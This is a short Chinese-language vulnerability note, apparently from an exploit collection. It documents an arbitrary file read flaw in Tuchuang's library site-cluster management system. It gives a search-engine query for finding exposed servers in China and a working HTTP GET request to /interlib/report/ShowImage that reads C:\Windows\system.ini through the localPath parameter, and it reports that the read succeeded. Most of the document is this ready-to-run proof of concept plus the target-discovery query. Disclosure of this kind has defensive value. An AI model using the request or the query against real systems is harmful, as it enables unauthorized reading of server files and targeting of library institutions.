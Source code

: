# 

# 图创软件 图书馆站群管理系统 任意文件读取漏洞

## 漏洞描述

图创软件 图书馆站群管理系统 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
图创软件 图书馆站群管理系统
```

## 网络测绘

```
"广州图创" && country="CN" && body="/interlib/common/"
```



## 漏洞复现

登录页面如下

![](./images/202202101854438.png)

漏洞请求包为



```plain
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: 
Content-Length: 4
```



![](./images/202202101854283.png)



成功读取 system.ini 文件
